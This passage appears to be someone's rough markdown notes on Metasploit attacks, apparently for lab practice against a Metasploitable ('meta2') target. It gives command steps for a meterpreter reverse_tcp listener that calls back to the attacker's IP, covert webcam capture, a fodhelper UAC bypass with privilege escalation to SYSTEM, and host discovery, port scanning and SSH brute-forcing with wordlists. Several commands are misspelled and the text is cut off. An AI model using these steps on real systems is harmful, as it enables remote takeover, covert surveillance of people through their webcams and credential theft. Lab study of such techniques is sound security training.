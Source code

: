 	- Apache  server 
-  make target to download payload 
- part 3 - start a listener on attacker's device 
	- use exploit/multi/handler
	- set payload windows/meterpreter/reverse_tcp
	- set LHOST ``<attacker ip>``
	- set LPORT ``<>attcker's port>``
	- exploit 
- part 4 - accessing webcam
- webcam_list 
	- webcam_snap (picture)
	- webcam_stram (live)
- 
  
#### privilege Escalation -Bypasssing User Acess Control (UAC)
check if the curretn user is part of administrator group 
meterperter > shell
c:\> net user 
c:\> whoami
c:> net user `` <username >``
meterprter > background 
		  >search bypassuac 
		  
		  >use exploit/windows/local/bypassuac_fodhelper
		  >set SESSION <sessionid>
		  >exploit
		  >
- New meterpreter session will be opened
	- ps
	- migrate ``<pidofsystemprocess>``
	 - getsystem
#### Exploiting  meta2 using Metasploit ( ssh 22)
- step 1 - check host is live or not 
	- search ping sweep
	-  use auxiliary/scanner/discovery/arp_sweep
		- set RHOST ``<ip>``
		- run 
	- step 2 - port scan 
	- search port scan 
	- use auxiliary/scanner/portscan/syn
		- set RHOSTS ``<ip>``
		- set PORTS 21,22,80,443
		- run
- step 3 - version detection scan
	- search ssh version 
	- use_auxiliary/scanner/ssh/ssh_version
	- set RHOSTS ``<ip>``
	- run 
- step 4 -  brute force ssh using word list 
	- search ssh login 
	- use auxiliary/scanner/ssh/ssh login
	- set RHOSTS ``<ip>``
	- set USER_FILE ``<path>``
	- set PASS_FILE ``<path>``
	- unset USERNAME (to unset )


	sessions -i `<id >` (to intrace with sessions )
### References
 
